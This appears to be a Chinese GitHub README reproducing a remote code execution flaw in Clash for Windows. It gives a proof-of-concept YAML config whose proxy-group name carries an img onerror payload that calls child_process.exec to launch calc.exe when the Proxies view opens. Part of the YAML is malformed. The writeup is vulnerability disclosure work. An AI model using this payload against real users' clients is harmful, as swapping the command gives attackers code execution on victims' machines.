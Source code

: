 # Clash_for_Windows-远程代码执行漏洞:漏洞利用poc,远程rce


Clash_for_Windows远程代码执行漏洞:

# 0x01:clash介绍



```
A Windows/macOS/Linux GUI based on Clash and Electron.
```

# 

# 0x02:漏洞复现



## 从以下链接下载Windows版本：



<div>

https://github.com/Fndroid/clash_for_windows_pkg/releases
</div>



## 在windows10虚拟机中打开Clash_for_Windows

# 0x03:poc

```
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
name: atype: socks5
server: 127.0.0.1
port: "17938"
skip-cert-verify: true
name: abc
type: socks5
server: 127.0.0.1
port: "8088"
skip-cert-verify: true
```
proxy-groups:
```

name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
type: select
proxies:
- a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

```

## 导入该poc：



import



### 在当前界面点击：



Proxies



# 此时弹出计算器，漏洞成功利用。



# 0x04:

###### 原作者pr链接：



```
https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 
```



里面包含了poc和复现方法。



本次本地复现来源于上述链接！




